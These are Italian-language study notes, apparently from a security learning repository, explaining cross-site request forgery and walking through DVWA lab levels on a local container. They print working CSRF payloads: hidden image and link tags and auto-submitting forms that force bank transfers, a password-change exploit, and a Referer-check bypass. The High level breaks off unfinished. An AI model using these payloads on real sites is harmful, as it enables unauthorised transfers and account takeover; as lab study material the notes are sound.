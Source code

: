 ## CSRF

- https://en.wikipedia.org/wiki/Cross-site_request_forgery
- https://owasp.org/www-community/attacks/csrf
- http://www.cgisecurity.com/csrf-faq.html

Cross-Site Request Forgery forza l'utente a fare una richiesta su un sito su cui è autenticato.
L'attacco ha come obiettivo le richieste che cambiano lo stato interno del server, non il furto di dati; infatti l'attaccante non ha modo di vedere la risposta alla richiesta malevola.
A differenza del XSS che sfrutta la fiducia di un utente nel sito, il CSRF sfrutta la fiducia che il sito ha nel browser dell'utente.

Tra le varie tecniche, l'attaccante può spingere la vittima a cliccare il tag html `a` o ad aprire l'email col tag html `img`.
Nell'esempio che segue, l'immagine non viene visualizzata in quanto ha altezza e larghezza pari a `0`.

**Scenario GET**

- tag html `a`: `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>`

- tag html `img`: `<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">`

**Scenario POST**

Richiesta originale:

```
POST http://bank.com/transfer.do HTTP/1.1

acct=BOB&amount=100
```

Richiesta malevola:

- con interazione della vittima

```
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
	<input type="hidden" name="acct" value="MARIA"/>
	<input type="hidden" name="amount" value="100000"/>
	<input type="submit" value="View my pictures"/>
</form>
```

- senza interazione della vittima

```
<body onload="document.forms[0].submit()">

<form ...>
```

**Altri metodi HTTP**

Richiesta originale:

```
PUT http://bank.com/transfer.do HTTP/1.1

{ "acct":"BOB", "amount":100 }
```

Richiesta malevola:

```
<script>
	function put() {
		var x = new XMLHttpRequest();
		x.open("PUT", "http://bank.com/transfer.do", true);
		x.setRequestHeader("Content-Type", "application/json");
		x.send(JSON.stringify({"acct":"BOB", "amount":100}));
	}
</script>

<body onload="put()">
```

Nell'ultimo esempio, la richiesta **non** viene eseguita dai moderni browser grazie alla restrizione *same-origin policy*.
Questa protezione è abilitata di default, a meno che il server abiliti esplicitamente le richieste cross-origin da uno o più siti usando CORS con l'header `Access-Control-Allow-Origin`.

È possibile in alcuni casi rendere persistente l'attacco CSRF sullo stesso sito vulnerabile.
Si parla di stored CSRF flaw.
Si realizza memorizzando un tag IMG o IFRAME in un campo che accetta HTML, o tramite un più complesso attacco XSS.
Se l'attaccante può rendere persistente l'attacco sul sito, la gravità dell'attacco è amplificata.
La probabilità di successo aumenta perchè è la vittima visita più facilmente la pagina infetta rispetto a qualsiasi altra pagina su Internet.
Inoltre la vittima è quasi sicuramente già autenticata al sito vulnerabile.

### CSRF - Low

```
// Get input
$pass_new  = $_GET[ 'password_new' ];
$pass_conf = $_GET[ 'password_conf' ];
```

Richiesta GET originale:

`http://172.17.0.2/vulnerabilities/csrf/?password_new=password&password_conf=password&Change=Change`

Exploit:

- `<a href="http://172.17.0.2/vulnerabilities/csrf/?password_new=password1&password_conf=password1&Change=Change">Link</a>`

- `<img src="http://172.17.0.2/vulnerabilities/csrf/?password_new=password2&password_conf=password2&Change=Change" width="0" height="0" border="0">`

### CSRF - Medium

```
// Checks to see where the request came from
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { ... }
```

- `$_SERVER[ 'HTTP_REFERER' ]`: pagina che ha invocato la richiesta verso l'endpoint
- `$_SERVER[ 'SERVER_NAME' ]`: nome del server su cui lo script viene eseguito

Exploit:

La richiesta deve provenire da una pagina la cui URL contiene il valore di `$_SERVER[ 'SERVER_NAME' ]`.

Creo una pagina `csrf-172.17.0.2.html` contenente il codice HTML `<a href="http://172.17.0.2/vulnerabilities/csrf/?password_new=password3&password_conf=password3&Change=Change">Click me!</a>`.
Il server vulnerabile riceverà una richiesta con `Referer: http://malicious.com/csrf-172.17.0.2.html`, che verifica il controllo di `stripos`.

### CSRF - High

```
// Check Anti-CSRF token
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

...

// Generate Anti-CSRF token
generateSessionToken();
```

Exploit:

TODO CONTINUE

